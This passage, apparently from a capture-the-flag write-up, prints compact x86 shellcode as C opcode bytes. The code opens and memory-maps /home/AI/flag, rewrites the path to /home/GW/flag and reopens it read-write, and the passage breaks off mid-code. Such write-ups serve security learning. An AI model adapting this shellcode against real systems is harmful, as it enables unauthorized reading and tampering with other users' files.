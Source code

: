 On a 32-bit system, we will need to operate on `mmap_arg_struct`. Note that `unsigned long` is 32-bit here!

```c
mmap_arg_struct {
    unsigned long addr;
	unsigned long len;
	unsigned long prot;
	unsigned long flags;
	unsigned long fd;
	unsigned long offset;
}
```

The shellcode is straightforward, with just a bit of tightening to get it under the 100 byte limit
(mostly: LEAs and using EDX as zero). I could probably squeeze few bytes more &#128512;

```c
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/shm.h>

unsigned char opcodes[] = {
    /* Use EDX as zero through the code (shortens LEA opcodes) */
    0x31, 0xd2,                         // xor     edx,edx

    /* Store filename on stack */
    0x6a, 0x67,                         // push    0x67            ; "g\0"
    0x68, 0x2f, 0x66, 0x6c, 0x61,       // push    0x616c662f      ; "/fla"
    0x68, 0x65, 0x2f, 0x41, 0x49,       // push    0x49412f65      ; "e/AI"
    0x68, 0x2f, 0x68, 0x6f, 0x6d,       // push    0x6d6f682f      ; "/hom"

    /* struct mmap_arg_struct mmap_arg = {...} */
    0x52,                               // push    edx             ; .offset = 0
    0x52,                               // push    edx             ; .fd = 0
    0x6a, 0x01,                         // push    1               ; .flags = MAP_SHARED
    0x6a, 0x01,                         // push    1               ; .prot = PROT_READ
    0x6a, 0x26,                         // push    38              ; .len = 38
    0x52,                               // push    edx             ; .addr = NULL
    0x89, 0xe5,                         // mov     ebp,esp         ; EBP = mmap_arg

    /* mmap_arg.fd = sys_open("/home/AI/flag", O_RDWR, 0) */
    0x8d, 0x42, 0x05,                   // lea     eax, [edx+5]    ; __NR_open
    0x8d, 0x5d, 0x18,                   // lea     ebx, [ebp+24]   ; "/home/AI/flag"
    0x31, 0xc9,                         // xor     ecx, ecx        ; O_RDONLY
    0xcd, 0x80,                         // int     0x80            ; syscall
    0x89, 0x45, 0x10,                   // mov     [ebp+16], eax   ; mmap_arg.fd = fd

    /* void *src = sys_mmap(&mmap_arg) */
    0x8d, 0x42, 0x5a,                   // lea     eax, [edx+90]   ; __NR_mmap
    0x89, 0xeb,                         // mov     ebx, ebp        ; &mmap_arg
    0xcd, 0x80,                         // int     0x80            ; syscall
    0x89, 0xc6,                         // mov     esi, eax        ; ESI = src

    /* replace "AI" with "GW" in the string */
    0x66, 0xc7, 0x45, 0x1e, 0x47, 0x57, // mov     word ptr [ebp+30], 0x5747

    /* mmap_arg.fd = sys_open("/home/GW/flag", O_RDWR, 0) */
    0x8d, 0x42, 0x05,                   // lea     eax, [edx+5]    ; __NR_open
    0x8d, 0x5d, 0x18,                   // lea     ebx, [ebp+24]   ; "/home/GW/flag"
    0x8d, 0x4a, 0x02,                   // lea     ecx, [edx+2]    ; O_RDWR
    0xcd, 0x80,                         // int     0x80            ; syscall
    0x89, 0x45, 0x10,                   // mov     [ebp+16], eax   ; mmap_arg.fd = fd

```